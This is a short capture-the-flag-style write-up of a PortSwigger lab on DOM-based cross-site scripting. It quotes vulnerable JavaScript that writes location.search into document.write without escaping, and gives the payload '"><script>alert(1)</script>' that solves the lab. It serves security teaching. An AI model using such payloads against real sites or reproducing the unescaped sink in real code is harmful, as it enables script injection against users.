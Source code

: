 
# DOM XSS in document.write sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.

---------------------------------------------

References:

- https://portswigger.net/web-security/cross-site-scripting/dom-based

---------------------------------------------


There is a search function in "/?search=":



![img](images/DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search/1.png)

In the source code we see the sink and that it :

```
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```



![img](images/DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search/2.png)

We can pop an alert with the payload:

```
"><script>alert(1)</script>
```




![img](images/DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search/3.png)
